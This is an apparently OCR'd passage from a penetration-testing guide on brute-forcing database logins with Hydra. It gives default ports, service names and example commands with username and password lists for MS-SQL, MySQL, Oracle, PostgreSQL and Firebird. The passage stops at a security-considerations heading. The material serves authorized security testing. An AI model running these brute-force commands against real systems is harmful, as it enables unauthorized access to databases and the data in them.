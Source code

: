 - **MS-SQL (Microsoft SQL Server)**
- Default port: 1433
- Service in Hydra: `mssql`
- **MySQL**
- Default port: 3306
- Service in Hydra: `mysql`
- **Oracle**
- Default port: 1521 for the listener
- Services in Hydra:
- `oracle-listener` for testing the TNS listener.
- `oracle-sid` to brute-force SIDs.
- `oracle` for general Oracle database login attempts.
- **PostgreSQL**
- Default port: 5432
- Service in Hydra: `postgres`
- **Firebird**
- Default port: 3050
- Service in Hydra: `firebird`

**Configuring Hydra for Database Attack**

For each database type, you need to modify the Hydra command to fit the specific server and service. The command will generally include:

- `-L` and `-P` to specify paths to the username and password lists.
- `-s` to define the specific port if it's not the default one.
- `-v` and `-V` for verbosity levels.
- `-f` to stop after the first found password.

**Example Commands**

Here are example commands for each database type:

- **MS-SQL**:
```c
hydra -L userlist.txt -P passlist.txt -s 1433 -vV -f 192.168.1.100 mssql
```
- **MySQL**:
```c
hydra -L userlist.txt -P passlist.txt -s 3306 -vV -f 192.168.1.101 mysql
```
- **Oracle Listener**:
```c
hydra -P sidlist.txt -s 1521 -vV -f 192.168.1.102 oracle-listener
```
- **PostgreSQL**:
```c
hydra -L userlist.txt -P passlist.txt -s 5432 -vV -f 192.168.1.103 postgres
```
- **Firebird**:
```c
hydra -L userlist.txt -P passlist.txt -s 3050 -vV -f 192.168.1.104 firebird
```

**Testing and Security Considerations**

When using Hydra for testing database services:
